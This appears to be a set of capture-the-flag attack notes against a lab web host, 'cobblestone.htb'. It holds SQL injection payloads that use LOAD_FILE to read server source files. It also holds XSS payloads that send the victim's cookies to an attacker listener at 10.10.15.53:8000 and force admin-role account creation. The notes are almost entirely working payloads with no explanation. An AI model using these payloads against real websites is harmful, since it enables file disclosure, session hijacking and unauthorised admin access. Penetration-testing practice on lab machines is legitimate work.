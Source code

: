 https://blog.csdn.net/m0_65785435/article/details/150431142

fileread  on  /suggest.php	thru sqlinjection 

test' UNION ALL SELECT NULL,NULL,NULL,LOAD_FILE('/var/www/vote/index.php'),NULL-- -

test' UNION ALL SELECT NULL,NULL,NULL,LOAD_FILE('/var/www/html/download.php'),NULL-- -

test' UNION ALL SELECT NULL,NULL,NULL,LOAD_FILE('/var/www/vote/suggest.php'),NULL-- -

test' UNION ALL SELECT NULL,NULL,NULL,LOAD_FILE('/var/www/html/skins.php'),NULL-- -
downloads.html.twig
suggestform.html.twig
upload.html.twig
user.html.twig
suggest.html.twig

test' UNION ALL SELECT NULL,NULL,NULL,LOAD_FILE('/var/www/html/templates/user.html.twig'),NULL-- -

http://10.10.15.53/skin.png



// get the admin to prove ur skin 

// rearrange /secltists/Fuzzing/XSS/* for ur need 


<img src=x onerror="fetch('http://cobblestone.htb/register.php',{method:'POST',body:'username=hacker5454546&first=hacker&last=hacker&email=hacker12345@test.com&password=hacker123456&role=admin'})">

<img src=x onerror="fetch('http://10.10.15.53:8000/?c='+btoa(document.cookie))">


<img src=x onerror="fetch('http://cobblestone.htb/user.php', {method:'POST', body:'name=hacker5454546&first=hacker&last=hacker&email=hacker12345@test.com&role=admin'})">